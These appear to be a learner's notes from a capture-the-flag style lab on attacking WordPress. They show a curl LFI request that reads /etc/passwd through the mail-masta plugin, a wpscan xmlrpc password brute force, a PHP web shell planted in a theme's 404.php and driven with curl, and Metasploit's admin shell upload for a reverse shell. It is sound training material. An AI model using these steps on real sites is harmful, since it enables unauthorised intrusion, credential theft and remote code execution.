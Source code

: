 # 🧊 Exploitation

## Vulnerable Plugin

Let's say we identified via a WPScan an outdated theme or plugin known to be vulnerable to SQL Injection as well as Local File Inclusion (LFI). \
We can verify if the LFI can be exploited based on this exploit-db [report](https://www.exploit-db.com/exploits/40290/). The exploit states that any unauthenticated user can read local files through the path: `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Or through cURL ->

```shell-session
curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

### User Bruteforce

The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`.

```shell-session
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```

_**Perform a bruteforce attack against the user "roger" on your target with the wordlist "rockyou.txt". Submit the user's password as the answer.**_

```
wpscan --password-attack xmlrpc -t 20 -U roger -P /home/htb-ac-1032889/Downloads/rockyou.txt --url http://94.237.53.113:47407
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## RCE via the Theme Editor

With administrative access to WordPress, we can modify the PHP source code to execute system commands. Once we're logged in, we click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

And now we should be able to use a webshell using the `404.php?cmd=id`.

And we can check this with the following cURL command:&#x20;

```shell-session
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

_**Use the credentials for the admin user \[admin:sunshine1] and upload a webshell to your target. Once you have access to the target, obtain the contents of the "flag.txt" file in the home directory for the "wp-user" directory.**_

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
http://94.237.53.113:47407/wp-content/themes/twentyseventeen/404.php?cmd=id
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
curl -X GET "http://94.237.53.113:47407/wp-content/themes/twentyseventeen/404.php?cmd=cat%20/home/wp-user/flag.txt"
```

## Attacking with Metasploit

To obtain the reverse shell, we can use the `wp_admin_shell_upload` module. We can easily search for it inside `MSF`:

```shell-session
msf5 > search wp_admin
```

Once we set all of the options for this module and we hit run, it will launch a reverse shell
